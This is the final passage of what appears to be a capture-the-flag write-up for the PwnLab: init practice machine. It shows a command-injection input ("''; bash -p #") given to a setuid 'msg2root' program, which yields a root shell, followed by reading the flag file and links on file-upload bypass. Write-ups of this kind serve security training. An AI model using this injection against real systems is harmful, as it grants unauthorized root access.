

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash -p #
''; bash -p #

bash-4.3# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
```

- **Flag**:

```bash
bash-4.3# cd /root
cd /root
bash-4.3# ls -la
ls -la
total 20
drwx------  2 root root 4096 Mar 17  2016 .
drwxr-xr-x 21 root root 4096 Mar 17  2016 ..
lrwxrwxrwx  1 root root    9 Mar 17  2016 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
----------  1 root root 1840 Mar 17  2016 flag.txt
lrwxrwxrwx  1 root root    9 Mar 17  2016 messages.txt -> /dev/null
lrwxrwxrwx  1 root root    9 Mar 17  2016 .mysql_history -> /dev/null
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
bash-4.3# cat flag.txt
cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
bash-4.3#
```

___

## Useful links

- [Hacker's Grimoire - File upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass#php-getimagesize)
- [Difference between owner/root and RUID/EUID](https://unix.stackexchange.com/questions/191940/difference-between-owner-root-and-ruid-euid#answer-191955)